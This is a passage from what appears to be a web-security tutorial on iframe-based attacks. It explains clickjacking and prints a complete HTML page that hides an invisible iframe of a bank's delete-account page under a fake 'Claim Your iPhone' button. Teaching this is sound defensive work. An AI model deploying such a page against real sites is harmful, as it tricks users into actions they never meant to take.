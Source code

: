 ## Types of iFrame-Based Attacks

### 1. Clickjacking (UI Redressing)

Clickjacking is the most common iframe-based attack where malicious sites trick users into clicking on elements of a different website than what they perceive.

**Basic Clickjacking Example:**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Win a Free iPhone!</title>
    <style>
        .fake-button {
            position: relative;
            background-color: #ff4444;
            color: white;
            padding: 20px 40px;
            font-size: 24px;
            border: none;
            border-radius: 10px;
            cursor: pointer;
            z-index: 1;
        }
        
        .hidden-iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0; /* Completely invisible */
            z-index: 2; /* Above the fake button */
        }
        
        .container {
            position: relative;
            display: inline-block;
        }
    </style>
</head>
<body>
    <h1>🎉 Congratulations! You've won a FREE iPhone! 🎉</h1>
    <p>Click the button below to claim your prize!</p>
    
    <div class="container">
        <button class="fake-button">Claim Your iPhone!</button>
        <!-- Invisible iframe with victim's delete account page -->
        <iframe 
            src="https://victim-bank.com/delete-account" 
            class="hidden-iframe"
            scrolling="no">
        </iframe>
    </div>
</body>
</html>
```
